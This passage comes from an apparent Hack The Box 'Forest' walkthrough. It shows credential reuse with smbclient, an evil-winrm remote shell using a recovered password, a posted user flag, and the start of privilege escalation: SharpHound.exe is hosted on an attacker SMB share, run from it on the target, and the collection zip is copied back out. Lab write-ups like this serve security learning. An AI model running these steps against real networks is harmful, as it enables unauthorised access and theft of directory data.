 ![Image](/assets/Screenshot 2024-09-15 at 12.04.36 AM.png)

We get a password!

It's important to use this to re-enumerate our services. Connect again to SMB Shares, Spray credentials across accounts, etc. We used `smbmap` to map out shares again, and this time we've got access to 3.

![Image](/assets/Screenshot 2024-09-15 at 12.34.33 AM.png)

I'll connect with `smbclient //forest.htb/SHARE --user svc-alfresco%s3rvice`. Rooting around a bit in the `SYSVOL` share, I found a `GptTmpl.inf`. I found out it sets user rights within the domain, and I'd love to do more research on it later.

Other than this, re-enumeration doesn't yield to much, but it doesn't matter because we can establish a shell using `evil-winrm` and enumerate further from there. Keep in mind, this only works because ports `5985` and `47001` are open and running `wsman` and `winrm`. These are the things to calibrate your mind with in the future.

```bash
evil-winrm -i 10.10.10.161 -u svc-alfresco -p 's3rvice'
```

![Image](/assets/Screenshot 2024-09-15 at 12.16.49 AM.png)

Scooting around a bit, we can find the user flag in `\Users\svc-alfresco\Desktop`

![Image](/assets/Screenshot 2024-09-15 at 12.51.21 AM.png)

`USER:43887e0a780a504a4e75db9cd43ef408`

### Privilege Escalation

Now, we can continue to enumerate with `cmd` tools. Use `net user /domain` and `net user svc-alfresco` to flesh out your understanding of the domain's policy and the users roles within them.

![Image](/assets/Screenshot 2024-09-15 at 12.57.56 AM.png)

We're a part of the service accounts group. We'll want to figure out a way to migrate laterally or vertically.
Let's host an ingester called `SharpHound.exe` with our SMB server, and use that to visual understand our paths forward using `Bloodhound`. Start the SMB server by `cp` the `smbserver` to our working directory (take it from one of the other box directories, that means it's probably worked before without dependency issues). Next, prepare the `SharpHound.exe`. preferably from the updated SharpCollection repo, by moving it to the working directory. Then start the server with:

`python3 smbserver.py share /home/li0t/Desktop/HTB/Forest`

Now, we can go to Forest, and use the following to grab it:

`\\10.10.14.3\share\SharpHound.exe`

The file should execute, and we will be left with two files. Move the `.zip` file back to our machine with:

`copy FILE.zip \\10.10.14.3\share`
